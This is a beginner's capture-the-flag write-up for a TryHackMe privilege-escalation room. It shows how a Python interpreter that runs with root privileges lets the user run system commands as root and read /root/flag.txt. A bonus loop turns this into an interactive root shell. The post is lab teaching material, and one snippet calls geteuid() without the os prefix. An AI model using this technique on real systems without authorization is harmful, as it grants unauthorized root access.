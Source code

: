 # Linux Privesc Playground - Try Hack Me - https://tryhackme.com/room/privescplayground
## This is my first Write-up but a simple one to preform.


### 1. lets get in the machine and open python 

SSH Credentials - user:password

so there is a "trick" to gain an easy shell with the help of python
first we have to see if python is installed and has root premonition so we could exploit it
 
$ python
```
>>>
```

great! we got python installed, lets continue.

now we are in the python interactive shell, this is sort of a testing ground for coders.
but for us, its just a convenient way to get a shell.

we only need to init one library for OS commands
```python
>>> import os
```
now, lets see if we are root. (euid = 0:root)
```python
>>> geteuid()
```
> 0

Grate! python user has root privileges! lets use that ofc...
the syntax should look like this 

```python
os.system("whoami")
```

>root
0


note you can press the arrow-key-up button to toggle previous commands exactly like a regular shell

### 2. Get The Flag!
to get the flag we will do the following

```python
os.system("cat /root/flag.txt")
```
> THM{3asy_f14g_1m40}


 

___
# bonus:

do you want to make your life easyer? (that's what python ment for)
 

```python
def A(i):
    os.system(i)
```

press return key (enter)


now all we need to do is A("YOUR COMMAND GOES HERE")

```
A('whoami')
```
>root
0

# Even better:

```
while True:
    i = input('CMD: ')
    os.system(i)
press return key (enter)
```
> CMD:
```
CMD: whoami
```
>root
0


now we go a loop and created our-self an easy root shell!

# Hye! if you done the bonus why not get in to a python course?